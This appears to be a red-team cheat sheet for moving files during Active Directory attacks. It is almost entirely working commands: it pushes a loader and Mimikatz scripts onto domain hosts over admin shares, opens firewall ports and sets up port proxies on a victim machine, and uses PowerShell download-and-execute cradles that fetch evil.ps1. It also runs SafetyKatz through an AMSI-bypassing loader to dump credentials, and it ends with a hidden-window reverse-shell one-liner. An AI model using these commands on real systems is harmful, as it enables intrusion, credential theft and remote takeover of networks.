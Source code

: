 # Transfer Files

### SMB Shares

Use Y instead of F in echo to overwrite a file that is already present.

```batch
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
:: Powershell 
Copy-Item C:\AD\Tools\Invoke-Mimi-keys.ps1 \\dcorp-adminsrv\C$\'Program Files'  
```

### HTTP Server

Serve the files using [hfs ](https://www.rejetto.com/hfs/?f=dl)or http simple server

```batch
:: Attacker Machine
python3 -m http.server -port 80
:: Open the port where the files are hosted. Need Admin Access
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
:: Verify if port is open or closed
netstat -an
```

Port forward to avoid firewall using netsh on target machine

<pre class="language-batch"><code class="lang-batch">:: Victim Machine
<strong>netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=172.16.100.x
</strong><strong>
</strong></code></pre>

Download the file on target machine

<pre class="language-powershell"><code class="lang-powershell"># Download and store
<strong>(New-Object Net.WebClient).DownloadFile('http://127.0.0.1:8080/&#x3C;File>', '&#x3C;Dest Path>')
</strong>
# Download and execute
iex ((New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/&#x3C;File>'));

# NetLoader to execute and bypass amsi
NetLoader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
</code></pre>

More options

```powershell
# Internet Explorer Downoad cradle
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response


$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()


$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```

PowerShell v3+

```powershell
# UseBasicParsing is important sometime
iex (iwr http://172.16.100.83/powercat.ps1 -UseBasicParsing)
iex (iwr 'http://192.168.230.1/evil.ps1')
```

Reverse Shell Execution by transferring file. Same can be used for bind shell too by changing **-Reverse** to **-Bind**. Power here is the function name to call and can be modified.

```powershell
powershell -nop -w hidden -c "IEX (iwr 'http://172.16.100.38/Invoke-PowerShellTcp.ps1' -UseBasicParsing); Power -Reverse -IPAddress 172.16.100.38 -Port 443
```
